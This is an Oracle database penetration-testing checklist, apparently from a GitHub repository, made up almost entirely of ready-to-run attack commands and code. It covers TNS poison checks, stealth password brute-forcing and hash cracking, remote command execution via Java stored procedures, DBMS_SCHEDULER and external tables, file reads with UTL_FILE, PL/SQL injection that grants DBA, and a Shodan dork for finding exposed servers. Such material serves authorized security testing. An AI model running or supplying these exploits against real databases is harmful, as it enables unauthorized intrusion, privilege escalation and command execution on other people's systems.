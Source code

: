 # ☕ Oracle Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After pentesting Oracle, I realistically expect to find:

- [ ] Exposed listener ports and service info
- [ ] Misconfigured instant client or TNS services
- [ ] TNS Poison attacks for MitM
- [ ] Stealth password bruteforcing
- [ ] Remote Code Execution via Java stored procedures, scheduler, or external tables
- [ ] File read/write access via UTL_FILE
- [ ] Privilege escalation via PL/SQL injection

---

## ✅ Oracle Pentest Checklist

- [ ] **Instant Client Setup (Attacker)**
  - Install and configure Oracle Instant Client.
    ```
    unzip instantclient-*.zip -d /opt/oracle/
    ln -s libclntsh.so.12.1 libclntsh.so
    ldconfig
    ```
  - Add environment variables:
    ```
    export PATH=$PATH:/opt/oracle/instantclient_12_1
    export LD_LIBRARY_PATH=/opt/oracle/instantclient_12_1
    ```
  - Verify SQLPlus:
    ```
    sqlplus <user>/<pass>@<IP>/<SID>
    ```

- [ ] **Metasploit Setup**
  - Install ruby-oci8 for Oracle modules.
    ```
    apt-get install libgmp-dev
    gem install ruby-oci8
    ```

---

## ✅ TNS Poison Attack

- [ ] **Check Vulnerability**
  - MSF module:
    ```
    use auxiliary/scanner/oracle/tnspoison_checker
    ```
  - ODAT test:
    ```
    ./odat.py tnspoison -s <IP> -p <PORT> -d <SID> --test-module
    ```

---

## ✅ Stealth Password Brute Force

- [ ] **Versions Vulnerable:** 11.1.0.6–11.2.0.3
- [ ] **Nmap Module**
  - Grab hashed credentials.
    ```
    nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g <IP>
    ```
  - Crack with john:
    ```
    john hashes.txt
    ```

---

## ✅ RCE - Java Stored Procedure

- [ ] **Create Java Class**
    ```
    create or replace and resolve java source named "oraexec" as
    import java.lang.*;
    import java.io.*;
      public class oraexec
      {
        public static void execCommand(String command) throws IOException
        {
          Runtime.getRuntime().exec(command);
        }
      }
    /
    ```
- [ ] **Create PL/SQL Wrapper**
    ```
    create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
    ```
- [ ] **Execute Command**
    ```
    exec javacmd('command');
    ```

---

## ✅ RCE - Scheduler

- [ ] **Execute via DBMS_SCHEDULER**
    ```
    exec DBMS_SCHEDULER.create_program('HACK','EXECUTABLE','cmd.exe /c echo owned >> C:/pwned.txt',0,TRUE);
    exec DBMS_SCHEDULER.create_job(job_name=>'HACKJOB',program_name=>'HACK',enabled=>TRUE);
    ```

---

## ✅ RCE - External Tables

- [ ] **Check Directories**
    ```
    SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE privilege='EXECUTE';
    ```
- [ ] **Write Batch File**
    ```
    declare
     f utl_file.file_type;
     s varchar2(200) := 'echo PWNED >> C:/owned.txt';
    begin
     f := utl_file.fopen('DIR','hack.bat','W');
     utl_file.put_line(f,s);
     utl_file.fclose(f);
    end;
    /
    ```
- [ ] **Execute via External Table**
    ```
    CREATE TABLE EXTT (line varchar2(256))
    ORGANIZATION EXTERNAL
    (TYPE oracle_loader
      DEFAULT DIRECTORY DIR
      ACCESS PARAMETERS
      ( RECORDS DELIMITED BY NEWLINE
        FIELDS TERMINATED BY ',')
      LOCATION ('hack.bat'))
    /
    SELECT * from EXTT;
    ```

---

## ✅ File Read/Write with UTL_FILE

- [ ] **Read a File**
    ```
    declare
    f utl_file.file_type;
    sBuffer varchar2(8000);
    begin
    f := utl_file.fopen('DIR','boot.ini','r');
    loop
      utl_file.get_line(f,sBuffer);
      dbms_output.put_line(sBuffer);
    end loop;
    exception when no_data_found then
      utl_file.fclose(f);
    end;
    /
    ```

- [ ] **ODAT for File Read/Write**
    ```
    ./odat.py utlfile -s <IP> -d <SID> -U <user> -P <pass> --getFile "C:/test" out.txt
    ./odat.py externaltable -s <IP> -d <SID> -U <user> -P <pass> --getFile "C:/test" out.txt
    ```

---

## ✅ Privilege Escalation

- [ ] **Classic PL/SQL Injection Example**
    ```
    exec ctxsys.driload.validate_stmt('grant dba to scott');
    ```
- [ ] **Custom Privilege Grant**
    ```
    CREATE OR REPLACE FUNCTION F1
    RETURN NUMBER AUTHID CURRENT_USER
    IS
    PRAGMA AUTONOMOUS_TRANSACTION;
    BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO TEST';
    COMMIT; RETURN(1); END;
    /
    exec sys.kupw$WORKER.main('x','YY'' and 1=test1.f1 --');
    ```
- [ ] **DBMS_JVM_EXP_PERMS for Java IO Privilege**
    ```
    DECLARE
       POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
       CURSOR C1 IS SELECT
    'GRANT','GREMLIN','SYS','java.io.FilePermission','<ALL FILES>','execute','ENABLED' FROM DUAL;
      BEGIN
      OPEN C1;
      FETCH C1 BULK COLLECT INTO POL;
      CLOSE C1;
      DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
    END;
    /
    ```
    ```
    select dbms_java.runjava('oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c echo 123 >c:\\hack') from dual;
    ```

---

## ✅ Useful Tools

- [ODAT](https://github.com/quentinhardy/odat)
  - Comprehensive Oracle pentesting tool.
- [SQLPlus]
  - For direct Oracle connections.
- [Metasploit]
  - Auxiliary and exploit modules for Oracle DB.

---

## ✅ Shodan Dork

- `port:1521 oracle`
